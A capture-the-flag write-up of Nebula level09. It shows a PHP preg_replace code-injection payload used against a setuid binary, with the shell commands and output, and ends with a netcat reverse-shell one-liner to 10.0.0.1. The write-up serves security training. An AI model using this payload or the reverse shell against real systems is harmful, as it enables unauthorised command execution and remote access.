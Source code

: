 This was also a very nice level. And the code has even a variable named `$use_me` that helps in 
exploiting the bug. 

To exploit it, I created a file named `/tmp/testfile` with the below contents. Then I proceeded to call the setuid binary:

	:::bash
	level09@nebula:/home/flag09$ cat /tmp/testfile 
	[email {${eval(system($use_me))}}]

	level09@nebula:/home/flag09$ ./flag09 /tmp/testfile 'getflag > /tmp/flagged'
	PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1

	level09@nebula:/home/flag09$ cat /tmp/flagged 
	You have successfully executed getflag on a target account

How it works: First for the basic understanding read <http://php.net/manual/en/reference.pcre.pattern.modifiers.php>.

After having read it, we know that every matched group in the pattern in `preg_replace()` is called with the spam function.
But we control what parameter is passed to `spam()` with the reference `\2`.

So we can just call a bash command through php with a function like `system()`. There we make use of the second parameter `$use_me`.

For a POC, I just redirected the
contents of `getflag` to the file `/tmp/flagged`. But of course we could execute any command, like opening a backdoor shell with
a `$use_me` parameter like: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
